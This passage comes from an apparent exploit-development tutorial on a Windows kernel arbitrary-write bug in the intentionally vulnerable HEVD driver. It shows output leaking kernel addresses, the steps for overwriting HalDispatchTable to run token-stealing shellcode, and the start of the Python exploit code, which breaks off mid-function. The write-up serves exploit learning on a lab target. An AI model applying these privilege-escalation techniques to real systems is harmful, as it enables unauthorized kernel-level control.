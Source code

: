 Running this script nets us the following terminal output:
```
C:\Users\IEUser\Desktop>python ArbitraryWrite.py
[*] Calling NtQuerySystemInformation w/SystemModuleInformation class
[*] Success, allocated 52828-byte result buffer.
[*] Result buffer contains 186 SystemModuleInformation objects
[*] Kernel Type: ntkrnlpa.exe
[*] Kernel Base: 0x82850000
[*] Kernel Handle: 0x19a0000
[*] Userland HalDispatchTable Address: 0x1ad9358
[*] Kernel HalDispatchTable Address: 0x82989358
[*] Target HalDispatchTable Function Pointer at: 0x8298935c
```

Amazing, we now have everything we need to finally add some shellcode!

## Shellcode and Exploitation
We will do the following in this function:
+ Establish a shellcode buffer,
+ Mark it RWX with `VirtualProtect`,
+ Establish a second buffer, let's call it the `What` buffer, that only holds a *pointer* to our shellcode buffer,
+ Mark this buffer RWX (is this even necessary?), 
+ Use a pointer to this second buffer as our `What` argument,
+ Use a pointer to `HalDispatchTable+0x4` as our `Where` argument,
+ Call `NtQueryIntervalProfile` finally to trigger the function that we've now overwritten and now points to our shellcode!

I just used FuzzySec's token stealing payload. I used the method of opening a shell that I learned from the [rootkits.xyz](https://rootkits.xyz/blog/2017/08/kernel-stack-overflow/) blog for the stack overflow exploit. 

Our final exploit code looks something like this fully commented and with references like the GladiusX-like class: 
```python
import ctypes, sys, struct
from ctypes import *
from ctypes.wintypes import *
from subprocess import *
 
kernel32 = windll.kernel32
ntdll = windll.ntdll
'''
class SYSTEM_MODULE_INFORMATION(Structure):
    _fields_ = [("Reserved", c_void_p * 2),
                ("ImageBase", c_void_p),
                ("ImageSize", c_long),
                ("Flags", c_ulong),
                ("LoadOrderIndex", c_ushort),
                ("InitOrderIndex", c_ushort),
                ("LoadCount", c_ushort),
                ("ModuleNameOffset", c_ushort),
                ("ImageName", c_char * 256)]
'''
def base():
    print("[*] Calling NtQuerySystemInformation w/SystemModuleInformation class" )
    # https://github.com/GradiusX/HEVD-Python-Solutions/blob/master/Win10%20x64%20v1607/HEVD_arbitraryoverwrite.py
    # @GradiusX style, arbitrary buffer to get the system_information_length
    # then we'll call it a second time with the appropriately sized buffer
    system_information = create_string_buffer(0)
    system_information_length = c_ulong(0)
    ntdll.NtQuerySystemInformation(
        0xb,
        system_information,
```